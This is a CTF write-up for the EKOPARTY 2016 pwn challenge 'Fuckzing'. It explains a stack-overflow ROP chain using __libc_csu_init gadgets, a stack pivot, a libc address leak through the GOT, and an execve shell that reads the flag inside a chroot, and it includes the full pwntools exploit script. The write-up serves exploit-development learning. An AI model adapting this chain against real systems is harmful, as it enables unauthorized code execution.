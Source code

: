 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/10/29/ekoparty-ctf-2016-fuckzing-exploit/
date: "2016-10-29T13:00:47+09:00"
tags: [ "ctf", "writeup", "ekoparty-ctf", "pwn", "rop", "stack-pivot", "libc-csu-init" ]
"target_url": [ "https://ctf.ekoparty.org/tasks/pwn/200" ]
---
```


# EKOPARTY CTF 2016: Fuckzing exploit

-   Sun Oct 30 00:19:55 JST 2016
    -   I heard that the string for the rev-250 was unnecessary to cause buffer overflow.

## problem

The binary is same to the rev-250, Fuckzing rev-250, but the filter on server doesn't exist.
You should solve rev-250 first.

## solution

To call `system("/bin/sh")`, it's not difficult. There are stack overflow vulnerability, and you can do return-oriented-programming with `__libc_csu_init` and stack-pivot.

However, I spent much time after taking the shell.
The difficulties are below:

-   I couldn't use `/bin/sh` interactively (why?)
-   It is `chroot`-ed and there are only $2$ binaries: `/bin/sh` and `/bin/ls`
-   And you cannot `cat flag.txt`

And I got the flag using the shell-builtin command `.`. It reports the contents of a file as error message.

```
# /bin/ls -l
total 84\n
-rw-r--r--  1 fuck 1002     0 Oct 27 18:47 ?@
-rw-r--r--  1 fuck 1002     0 Oct 27 20:42 ???????????????
-rw-r--r--  1 fuck 1002     0 Oct 27 20:39 -?M@+LQ}Z2??V??Cw+??}????d4???
-rwxr-xr-x  1 root    0 30640 Oct 21 15:52 FUck_binary
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 V?[??????fp?
-rw-r--r--  1 fuck 1002     2 Oct 28 07:38 a
drwxr-xr-x  2 root    0  4096 Oct 27 15:50 bin
drwxr-xr-x 19 root    0  4320 Aug 22 13:14 dev
drwxr-xr-x  3 root    0  4096 Oct 21 16:06 etc
-rw-r--r--  1 root    0    20 Oct 21 16:16 flag.txt
-rw-r--r--  1 fuck 1002     1 Oct 28 12:29 hoge
drwxr-xr-x  3 root    0  4096 Oct 20 21:16 home
-rw-r--r--  1 fuck 1002 10252 Oct 28 00:56 index.html
-rw-r--r--  1 fuck 1002     0 Oct 27 20:42 k??T???Y?p?
drwxr-xr-x  3 root    0  4096 Oct 20 20:56 lib
drwxr-xr-x  2 root    0  4096 Oct 20 20:57 lib64
drwxr-xr-x  2 root    0  4096 Oct 21 09:21 proc
drwxr-xr-x  5 root    0  4096 Oct 20 22:30 usr
-rw-r--r--  1 fuck 1002     0 Oct 27 20:43 ???T?BTK??*?????????????J??W
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 ????mW#???????Cq?????d???????????
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 ??H??5m8??
-rw-r--r--  1 fuck 1002     0 Oct 27 20:38 ??
-rw-r--r--  1 fuck 1002     0 Oct 27 20:44 ????t?]???Fx?
```

``` sh
# /bin/ls -l /bin
total 276
-rwxr-xr-x 1 root 0 126584 Oct 27 15:45 ls
-rwxr-xr-x 1 root 0 154072 Oct 27 15:50 sh
```

``` sh
# . flag.txt
/bin/sh: 1: ./flag.txt: EKO{AFL_found_this}: not found
```

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='7e0a98bb084ec0937553472e7aafcf68ff96baf4.ctf.site')
parser.add_argument('port', nargs='?', default=10000, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('FUck_binary')
libc = ELF('libc.so.6') # Ubuntu 16.04, d443f227870b9c29182cc7a7a007d881
libc_csu_init_a = 0x405660
libc_csu_init_b = 0x40567a
pop_rsp_r13_r14_r15_ret =  0x40567d # pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
static = 0x606000
next_stack = static + 0x1000 - 0x200
buffer = static + 0x1000 - 0x90

# p = process('./FUck_binary', env={ 'LD_LIBRARY_PATH': '.' }) # with ./libget_flag.so
p = remote(args.host, args.port)

p.recvuntil("Hello, what's your team name? ")
payload = ''
payload += '\x80@@\x88\xa6  @ \x86@v@   /\x96vC\x80p D AC``@`v 0  \x87\x80   @X@ @@\x80`@h \x9d@  W@UB \x80( \x8cq@@ \x80\x80 F$tH  6  J B k[Q` @@@Xp, I @\x80 @             \x80  \x80 @          ' # found using angr (rev 250)
payload += 'AAAAAAAA' # rbp
payload += p64(libc_csu_init_b) # rip
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['read']) # r12 -> rip
payload += p64(1024) # r13 -> rdx
payload += p64(next_stack) # r14 -> rsi
payload += p64(0) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += 'AAAAAAAA' # rbx
payload += 'AAAAAAAA' # rbp
payload += 'AAAAAAAA' # r12
payload += 'AAAAAAAA' # r13
payload += 'AAAAAAAA' # r14
payload += 'AAAAAAAA' # r15
payload += p64(pop_rsp_r13_r14_r15_ret) # rip
payload += p64(next_stack) # rsp
p.send(payload)

time.sleep(1)
payload = ''
payload += 'AAAAAAAA' # r13
payload += 'AAAAAAAA' # r14
payload += 'AAAAAAAA' # r15
payload += p64(libc_csu_init_b) # rip
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['write']) # r12 -> rip
payload += p64(8) # r13 -> rdx
payload += p64(elf.got['setvbuf']) # r14 -> rsi
payload += p64(1) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['read']) # r12 -> rip
payload += p64(1024) # r13 -> rdx
payload += p64(buffer) # r14 -> rsi
payload += p64(0) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(buffer) # r12
payload += p64(buffer + 0x8) # r13
payload += p64(buffer + 0x10) # r14
payload += p64(buffer + 0x40) # r15
payload += p64(libc_csu_init_a)
p.send(payload)

p.recvuntil('Goodbye!')
setvbuf = u64(p.recv(8))
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('setvbuf: %#x', setvbuf)
log.info('libc base: %#x', libc_base)
payload = ''
payload += p64(libc_base + libc.symbols['execve']) # 0x0
payload += p64(0) # 0x8, envp[0]
payload += p64(buffer + 0x40) # 0x10, argv[0]
payload += p64(buffer + 0x50) # 0x18
payload += p64(buffer + 0x60) # 0x20
payload += p64(0) # 0x28
payload += p64(0) # 0x30
payload += p64(0) # 0x38
payload += '/bin/sh\0' # 0x40
payload += '\0' * (0x50 - len(payload))
payload += '-c\0' # 0x50
payload += '\0' * (0x60 - len(payload))
payload += '. ./flag.txt\0' # 0x60
p.send(payload)

print p.recvall()
```
